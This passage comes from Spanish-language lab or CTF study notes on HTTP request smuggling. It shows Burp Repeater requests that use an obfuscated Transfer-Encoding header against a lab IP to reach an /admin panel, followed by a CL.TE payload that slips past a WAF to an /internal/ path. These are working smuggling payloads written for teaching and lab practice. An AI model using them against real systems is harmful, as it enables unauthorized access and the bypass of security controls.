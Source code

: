 >[!note]
>No olvide desmarcar la opcion de actualizar el `Content-Length`.

lo enviamos y veremos que en la peticion GET se tiene el error esperado de la desincronizacion:

![[Pasted image 20230516151340.png]]

para la explotacion hacemos lo mismo con un grupo de pestañas en el repeater:

Repeater - Tab group

```http
GET /404 HTTP/1.1
Host: 178.128.169.240:32547
Content-Length: 4
Transfer-Encoding: xchunked

34
GET /admin HTTP/1.1
Host: 178.128.169.240:32547
(\r\n)
(\r\n)
0
```

```http
GET /404 HTTP/1.1
Host: 178.128.169.240:32547
```


lo lanzamos y veremos que la segunda peticion tiene un estado 200 con el contenido del panel `/admin`:

![[Pasted image 20230516153242.png]]

lo renderizamos:

![[Pasted image 20230516153311.png]]


### Bypass security controls

or ejemplo, suponga que una aplicación web usa un WAF para bloquear todas las solicitudes a la ruta `/internal/` que no provienen de la red interna de una empresa. Podemos eludir esto fácilmente utilizando el contrabando de solicitudes CL.TE o TE.CL. Una carga útil para explotar una vulnerabilidad CL.TE podría verse así:

```http
POST / HTTP/1.1
Host: vuln.htb
Content-Length: 64
Transfer-Encoding: chunked

0

POST /internal/index.php HTTP/1.1
Host: localhost
Dummy: 
```
